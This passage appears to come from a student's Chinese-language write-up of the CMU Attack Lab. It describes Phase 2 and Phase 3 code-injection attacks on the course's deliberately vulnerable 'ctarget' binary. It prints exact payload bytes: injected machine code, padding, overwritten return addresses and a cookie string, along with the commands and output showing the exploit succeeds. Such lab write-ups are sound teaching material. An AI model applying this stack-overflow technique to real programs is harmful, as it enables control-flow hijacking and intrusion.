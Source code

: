 其中第一行为 `phase2.s` 的机器码，2-7行为填充，8行为 `%rsp` 地址，9行为 `touch2` 地址。执行时读入buffer，修改返回地址为 `0x55652778`，上一级返回地址为 `0x401837`，紧接着在栈上执行代码 `48 c7 c7 3a 4e db 47 c3` 修改 `%rdi`，返回至 `0x401837`，调用 `touch2`。

使用命令 `./hex2raw < phase2.txt > 2016011446.ctarget.l2; ./ctarget -q -i 2016011446.ctarget.l2` 得到如下结果：

```bash
n+e:~/wlxt/wjy/汇编语言程序设计(0)(2017-2018夏季学期)/attack/target2 ./hex2raw < phase2.txt > 2016011446.ctarget.l2; ./ctarget -q -i 2016011446.ctarget.l2 
Cookie: 0x47db4e3a
Touch2!: You called touch2(0x47db4e3a)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:ctarget:2:48 C7 C7 3A 4E DB 47 C3 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 78 27 65 55 00 00 00 00 37 18 40 00 00 00 00 00 
```

![](phase2.png)

## Phase3

大体思路同Phase2，只不过要把传的参数 `%rdi` 从数字换成指针，输入cookie的字符表示，还需要注意函数 `hexmatch` 中有可能会往栈中填充其他数据。试验了几种方法之后我决定把cookie字符串放在最后面，避免数据被覆盖的问题。

构造攻击代码 `phase3.txt` 如下：

```text
48 c7 c7 c0 27 65 55 c3
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
78 27 65 55 00 00 00 00
48 19 40 00 00 00 00 00
34 37 64 62 34 65 33 61
```
